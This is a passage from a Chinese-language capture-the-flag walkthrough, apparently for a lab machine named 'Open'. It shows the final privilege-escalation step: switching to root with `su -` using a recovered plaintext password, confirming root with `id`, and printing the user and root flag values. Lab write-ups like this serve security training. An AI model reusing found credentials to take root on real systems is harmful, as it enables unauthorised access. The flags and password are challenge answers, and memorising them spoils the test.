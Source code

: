 使用该密码成功切换到 `root` 用户。

```bash
miao@Open:/tmp$ su -
Password: do167watt041
root@Open:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### **四、夺取旗帜**

获取 root 权限后，读取所有旗帜文件。

```bash
root@Open:~# cat /home/miao/user.txt 
flag{user-b026324c6904b2a9cb4b88d6d61c81d1}

root@Open:~# cat /root/root.txt 
flag{root-6cd1f22e65d26246530ff7a2528144e3}
```